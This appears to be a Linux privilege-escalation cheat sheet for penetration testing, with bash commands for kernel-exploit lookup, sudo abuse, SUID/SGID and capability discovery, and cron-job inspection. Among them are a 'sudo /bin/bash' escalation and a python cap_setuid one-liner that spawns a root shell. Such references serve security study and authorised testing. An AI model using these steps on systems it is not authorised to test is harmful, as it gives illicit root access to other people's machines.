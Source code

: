 ### Privilege Escalation Vectors

#### Kernel Exploits
```bash
# Check kernel version
uname -a

# Search for exploits
searchsploit linux kernel 4.4.0

# Compile exploit
gcc exploit.c -o exploit
```

#### Sudo Rights
```bash
# Check sudo permissions
sudo -l

# Abuse sudo rights
sudo program
sudo /bin/bash
sudo -s
```

#### SUID/SGID Binaries
```bash
# Find SUID binaries
find / -perm -u=s -type f 2>/dev/null

# Find SGID binaries
find / -perm -g=s -type f 2>/dev/null

# Find both SUID and SGID binaries
find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
```

#### Capabilities
```bash
# List capabilities
getcap -r / 2>/dev/null

# Exploit capabilities
# Example: if python has cap_setuid capability
./python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

#### Cron Jobs
```bash
# List cron jobs
cat /etc/crontab
ls -la /etc/cron*
ls -la /var/spool/cron
crontab -l

# Check for writable scripts in cron jobs
find / -writable -type f 2>/dev/null | grep -v "/proc/" | grep -v "/sys/"
```
